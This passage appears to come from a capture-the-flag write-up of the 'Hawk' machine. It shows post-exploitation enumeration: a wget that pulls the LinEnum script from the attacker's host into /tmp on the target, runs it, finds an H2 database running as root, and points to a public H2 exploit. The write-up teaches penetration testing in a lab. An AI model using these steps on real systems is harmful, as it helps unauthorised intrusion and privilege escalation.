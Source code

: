 In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

An interesting process does pop up.

```text
root        815  0.0  0.0   4628   812 ?        Ss   00:45   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
```

The H2 database is run with root privileges. Let’s check access to the _/opt/h2_ directory.

```text
www-data@hawk:/tmp$ ls -la /opt | grep h2
drwxrwx---  8 1000 1004 4096 Jun 11  2018 h2
```

We don’t have permissions to enter the directory. However, the H2 database was running on port 8082, so let’s view it in the browser.

![](../images/max/968/1*FJ8I2NVjnuhySnTbmR9NdA.png)

It only allows local connections. At this point I googled “H2 exploit” and found the following [exploit](https://www.exploit-db.com/exploits/45506).

![](../images/max/843/1*GU1XoPIk1p4U6H9SPU8Bkg.png)
